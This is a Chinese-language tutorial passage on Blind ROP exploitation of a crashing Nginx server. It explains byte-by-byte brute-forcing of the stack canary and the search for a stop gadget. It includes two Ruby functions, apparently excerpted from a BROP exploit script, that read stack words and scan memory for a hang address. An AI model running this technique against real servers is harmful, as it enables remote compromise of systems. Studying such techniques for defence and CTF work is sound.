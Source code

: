 [![](https://p5.ssl.qhimg.com/t01898a5374a9e8a33e.jpg)](https://p5.ssl.qhimg.com/t01898a5374a9e8a33e.jpg)

当我们获取到崩溃长度后，根据Canary-&gt;EBP-&gt;Ret的栈结构，我们可以开始爆破Canary，爆破的方法就是一字节一字节爆破。

[![](https://p5.ssl.qhimg.com/t017a96cf4af23f6410.png)](https://p5.ssl.qhimg.com/t017a96cf4af23f6410.png)

这样，当我们第一字节从00开始爆破，当爆破到正确Canary的字节的时候，就不会崩溃，这时候再对第二字节进行爆破，以此类推。爆破出正确的Canary。



```
def find_rip()
words = []
while true #进入循环
stuff = "A" * @olen
stuff &lt;&lt; words.pack("Q#`{`@endian`}`*")
inf = []
w = stack_read_word(stuff, inf)#根据olen，依次读取栈中canary，rbp，ret等地址
if w == nil
print("Can't find stack word...n")
print("Setting stack to zerosn")
words = Array.new(words.length) `{` |i| 0 `}`
next
end
print("Stack has #`{`w.to_s(16)`}`n")
words &lt;&lt; w
next if not found_rip(w)
```

    stack_read_word是这个方法的核心函数，它会从Canary开始一字节一字节进行测试，方法就是之前我提到的，会分别爆破出栈中canary，rbp和ret的地址。

[![](https://p4.ssl.qhimg.com/t018407c2266eed0323.jpg)](https://p4.ssl.qhimg.com/t018407c2266eed0323.jpg)

 随后就是找hang gadget了，这个也叫stop gadget，这种特殊的地址，既不会造成Nginx崩溃，也不会造成Nginx返回内容，而是让进程进入无限循环，挂起或者sleep的状态，它是我们后面寻找BROP gadget的重要依据。



```
def find_inf()#找到hang addr  stop gadget
addr = @origin
addr += 0x1000 #跳过init部分
while true
addr += 0x10
rop = []
2.times do
rop &lt;&lt; addr
end
rop &lt;&lt; DEATH
r = try_rop_print(addr, rop)
next if r != RC_INF #如果没有hang，进行下一轮
next if not paranoid_inf(addr)#找plt
@inf = addr
print("Found inf at 0x#`{`@inf.to_s(16)`}`n")
break
end
end
```
